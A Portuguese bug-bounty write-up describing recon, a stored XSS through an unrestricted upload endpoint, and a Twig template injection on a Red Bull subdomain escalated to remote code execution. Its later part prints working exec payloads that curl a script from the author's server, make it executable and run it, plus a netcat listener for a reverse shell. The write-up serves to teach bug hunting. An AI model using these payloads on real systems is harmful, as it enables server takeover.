Fala, hunters! Tô trazendo mais um write-up sobre dois achados interessantes. Espero que esse conteúdo ajude outros caçadores e que você saia daqui tendo aprendido, ao menos, algo novo!
Bom, eu já tinha encontrado alguns XSS refletidos nessa aplicação, através de fuzzing, utilizando o ffuf — isso, há meses.
Porém, eu me lembrei desse alvo e resolvi testá-lo novamente.
Resumindo: encontrei esse site; vou chamá-lo de:
https://site.redbullmzr.com
Ao acessar o site, temos a seguinte página:
Uma página 404!
Fui para minha aba de favoritos e cliquei no meu "bookmarklet". É um código JavaScript que vai me mostrar todos os possíveis endpoints dentro do código JavaScript da aplicação web.
Repare que ele me deu este endpoint:
/mtt/public/acc/teste/s/
Fui para o DevTools e comecei a entender o contexto em que ele era utilizado.
Depois de um tempo procurando, encontrei isso:
/mtt/public/acc/teste/s/
Ao acessar esse endpoint via browser, temos a seguinte página:
Quando testei isso, pensei que não seria nada e deixei para lá. Voltei a fazer fuzzing com o ffuf, igual da primeira vez que encontrei esse site, mas, sem sucesso, obtive os mesmos endpoints de antes e nada de novo.
Isso acontece às vezes quando tô caçando: estou olhando algo e, quando estou prestes a desistir daquele alvo, tento dar uma última olhada e encontro algo. Recomendo muito: quando você estiver caçando e quiser desistir, dê uma pausa e depois volte com a cabeça mais limpa, para ver se encontra algo.
Cavando mais fundo, com paciência, encontrei essa função:
Essa função envia um ou mais arquivos para base/uploadResource e retorna a resposta do servidor.
Fui para o proxy e tentei enviar uma request para:
https://site.redbullmzr.com/base/uploadResource
Mas não funcionou.
Lembrei do primeiro endpoint que encontramos:
/mtt/public/acc/teste/s/
E tentei acessar o endpoint da função a partir dele:
https://site.redbullmzr.com//mtt/public/acc/teste/s/base/uploadResource
Enviando uma requisição POST, tivemos uma resposta diferente!
Dessa vez, o servidor aceitou nossa solicitação e interpretou a request.
A partir daqui percebi que conseguimos enviar arquivos para o servidor tentei envia um arquivo .php, mas não conseguimos acessá-los diretamente. O que acontece é que só podemos visualizar o conteúdo por meio de uma rota que ele nos retorna.
Então pensei: se enviarmos um HTML completo com uma payload de XSS, teremos um **Stored XSS** na aplicação!
Enviei a nova request com todos os campos necessários:
Note que o endpoint que eles retornaram não foi o arquivo em si, mas sim uma rota que exibe o conteúdo dele.
Como enviamos um HTML completo, o servidor renderizou o conteúdo para a gente!
Se pegarmos o path que ele nos deu e acessarmos via browser:
https://site.redbullmzr.com/mtt/publc/misc/files/resource/202508/dGVzdGUudHh0__68b4924a14938
Temos um Stored XSS!
Bem interessante esse achado! Reportei e fui dormir.
No outro dia, continuei olhando o alvo, e a próxima vulnerabilidade me surpreendeu ainda mais!
Dormindo...
ACORDEI NO PRÓXIMO DIA!
Vamos lá...
Voltei a olhar os JavaScript com paciência e olhei por um bom tempo; não encontrei nada. Pensei: "ok, não tem mais vulnerabilidades aqui".
Mas me lembrei do velho e bom Google Dork.
Pesquisando no Google (ainda no mesmo site):
site:site.redbullmzr.com
Me deparei com isso:
Ao acessar a URL que encontramos com o dork:
https://site.redbullmzr.com/media/17****/accreditation?lang=de/
Caímos nessa página:
Nela estava falando "infelizmente o portal de inscrição já está fechado".
Anotei a URL e continuei analisando os JavaScript da aplicação.
Resolvi ir para o DevTools e procurar qualquer coisa relacionada a "accreditation", já que isso estava na URL que encontramos com o Google Dork.
Olhando mais a fundo, encontrei isso:
/accreditation/:evend_id/register
Se você perceber, temos um possível event_id na URL que encontramos pelo Google Dork.
A URL foi:
url encontrada com o Google Dork::: >> https://site.redbullmzr.com/media/17****/accreditation?lang=de/
E, segundo o código JavaScript, existe outro endpoint que pode ser acessado através desse event_id.
Decidi testar o '17****' como possível event_id.
Ao acessar:
https://site.redbullmzr.com/accreditation/17****/register
Tivemos esta página:
Um formulário com vários campos para preencher.
Preenchi todos os campos do formulário, coloquei meu e-mail e inseri a payload de SSTI {{7*7}} no campo de nome do usuário.
Enviei e recebi isto por e-mail:
O resultado retornado foi 49, confirmando que a aplicação estava processando templates do Twig em PHP.
Eu supus que estava usando o Twig pelo processo de recon e pela análise dos JavaScript.
Enviei novamente, desta vez com a payload abaixo:
{{ ['curl http://site/${id} /']|filter('exec') }}
Request enviada!
Request recebida no meu servidor:
Então criei um script em Bash para enviar para o servidor vulnerável (no meu servidor):
Criei o arquivo e subi um servidor Python na porta 80 (no meu servidor):
python3 -m http.server 80
Voltando ao proxy, enviei a seguinte payload no campo "firstname":
{{ ['curl http://site/xx.sh /']|filter('exec') }}
Baixando o xxx.sh e dando permissão na máquina vulnerável:
{{ ['curl http://site/xx.sh -o /tmp/xxx.sh /']|filter('exec') }}{{ ['chmod +x /tmp/xxx.sh /']|filter('exec') }}
Escutando com o netcat na porta 4445 (no meu servidor):
nc -vnlp 4445
Executei o xxx.sh e recebi a shell reversa!
{{ ['curl -X POST -d $(bash /tmp/xxx.sh) http://site /']|filter('exec') }}
Temos acesso completo ao servidor!
Resultados! Os XSS foram em outros sites da Red Bull. Em breve posso trazer algo sobre a técnica que utilizei para encontrá-los!
  Eu estava lendo um artigo qualquer na internet e, nele, o autor falou: "quando você lê um write-up, vê apenas o resumo e parece mais fácil". Imagine que eu tive que começar do zero, sem entender nada dessa aplicação; com o passar do tempo, fui montando as peças e entendendo como aquela aplicação funcionava, mesmo sem ver nada visualmente — as funções ainda existiam nos JavaScript e tudo foi fazendo sentido.
Espero ter ajudado alguém com este write-up. Eu realmente acredito que o conhecimento tem que ser compartilhado, pois também foi através de outras pessoas que obtive grande parte do meu aprendizado! Se você está precisando de inspiração, assista a um vídeo do meu hacker favorito.